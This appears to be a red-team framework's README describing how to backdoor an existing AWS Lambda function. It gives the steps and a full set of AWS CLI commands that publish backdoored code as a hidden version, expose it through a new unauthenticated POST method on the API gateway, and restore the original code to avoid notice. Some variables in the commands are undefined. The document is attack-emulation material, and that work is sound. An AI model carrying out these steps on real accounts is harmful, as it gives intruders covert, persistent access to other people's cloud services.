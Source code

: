 # Create AWS Lambda Function

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP is used to backdoor an existing lambda function. To execute this TTP one needs to have a
  lambda function accessible via a public API gateway.
  TTP creates a version of backdoored code and then redeploys the original code to the latest lambda version
  The backdoor version of the code can then be invoked using a seperate method API request.
  The backdoor code filename should exactly match the filename of original lambda function code.



## Arguments

- **aws_account_name**: AWS account name where the Lambda function will be created.
- **role**: Account role to be used when communicating with AWS resources.
- **lambda_function_name**: The name of of existing lambda function with a public API resource.

## Steps

1. Create a backup copy of existing lambda function code.
2. Upload the backdoor code and publish the uploaded code as a version.
3. Create a different Method API call to the backdoored code.
4. Redeploy the original code as the latest version. This ensures that the lambda function works as intended.
5. Test that the backdoored code can be invoked via the new method API call.

## Manual Reproduction Steps

```
# Set necessary env variables

# Get the rest_api_id and root_resource_id of given lambda function
rest_api_id=$(aws apigateway get-rest-apis --query 'items[?name==`{{.Args.lambda_function_name}}-api`].id' --output text)
root_resource_id=$(aws apigateway get-resources --rest-api-id $rest_api_id --query 'items[?path==`/`].id' --output text)

# Create a POST method in existing resource
aws apigateway put-method --rest-api-id $rest_api_id --resource-id $root_resource_id --http-method POST --authorization-type "NONE"


# Add necessary permissions to the new resource method
account_id=$(aws sts get-caller-identity --query Account --output text)
account_region=$(aws configure get region)
statement_id=apigateway-$(cat /dev/urandom | tr -dc 'a-z0-9' | fold -w 10 | head -n 1)-{{.Args.lambda_function_name}}
source_arn="arn:aws:execute-api:$account_region:$account_id:$rest_api_id/*/POST/"

aws lambda add-permission --function-name $backdoor_function_arn --source-arn $source_arn \
--principal apigateway.amazonaws.com --statement-id $statement_id --action lambda:InvokeFunction


# Connect the POST method to the Lambda function (define integration)
lambda_func_arn=$(aws lambda get-function --function-name {{.Args.lambda_function_name}} --query 'Configuration.FunctionArn' --output text)
lambda_invocation_uri="arn:aws:apigateway:$account_region:lambda:path/2015-03-31/functions/$backdoor_function_arn/invocations"   #Here we usinge the ARN of published version

echo "lambda_invocation_uri: $lambda_invocation_uri"
aws apigateway put-integration --rest-api-id $rest_api_id \
--resource-id $root_resource_id --http-method POST --type AWS \
--integration-http-method POST --uri $lambda_invocation_uri


# Specify a METHOD response for HTTP status code 200
aws apigateway put-method-response --rest-api-id $rest_api_id --resource-id $root_resource_id --http-method POST --status-code 200

# Specify an INTEGRATION RESPONSE for a method response code of 200 and allow Passthrough content handling
aws apigateway put-integration-response --rest-api-id $rest_api_id --resource-id $root_resource_id \
--http-method POST --status-code 200 --response-templates '{"application/json":"$input.path('\'$.body\'')"}'

# # Deploy the API
aws apigateway create-deployment --rest-api-id $rest_api_id --stage-name prod

```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0003 Persistence
- **Techniques**:
  - T1543 Create or Modify System Process
